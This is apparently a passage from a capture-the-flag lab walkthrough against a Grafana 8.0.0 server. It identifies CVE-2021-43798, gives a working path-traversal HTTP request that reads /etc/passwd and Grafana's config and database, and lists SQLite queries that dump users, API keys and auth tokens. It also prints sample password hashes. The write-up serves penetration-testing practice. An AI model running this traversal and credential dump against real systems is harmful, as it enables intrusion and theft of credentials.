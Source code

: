 ```
datasources             [Status: 302, Size: 24, Words: 2, Lines: 3, Duration: 43ms]
```

### 3. Fingerprinting the Web App

Check site metadata:

```bash
whatweb http://10.129.254.162:3000
```

**Output:**

```
http://10.129.254.162:3000 [302 Found] Cookies[redirect_to], Country[RESERVED][ZZ], HttpOnly[redirect_to], IP[10.129.254.162], RedirectLocation[/login], UncommonHeaders[x-content-type-options], X-Frame-Options[deny], X-XSS-Protection[1; mode=block]
```

From this, we confirm the service is **Grafana 8.0.0**, which is vulnerable to [CVE-2021-43798](https://github.com/jas502n/Grafana-CVE-2021-43798).

### 4. Exploit LFI (Local File Inclusion)

Read `/etc/passwd`:

```http
GET /public/plugins/mysql/../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 10.129.254.162:3000
```

Also exfiltrate Grafana configuration and database files:

- `/etc/grafana/grafana.ini`
    
- `/var/lib/grafana/grafana.db`
    

### 5. Analyze grafana.db (SQLite)

Transfer `grafana.db` to your Kali box and explore:

```bash
sqlite3 grafana.db
.tables
.schema
SELECT * FROM user;
SELECT * FROM api_key;
SELECT * FROM data_source;
SELECT * FROM user_auth_token;
```

**Example `user` Table Output:**

```
1|0|admin|admin@localhost||7a919e4bbe95cf5104edf354ee2e6234efac1ca1f81426844a24c4df6131322cf3723c92164b6172e9e73faf7a4c2072f8f8|YObSoLj55S|hLLY6QQ4Y6||1|1|0||2022-01-23 12:48:04|2022-01-23 12:48:50|0|2022-01-23 12:48:50|0
2|0|boris|boris@data.vl|boris|dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8|LCBhdtJWjl|mYl941ma8w||1|0|0||2022-01-23 12:49:11|2022-01-23 12:49:11|0|2012-01-23 12:49:11|0
```
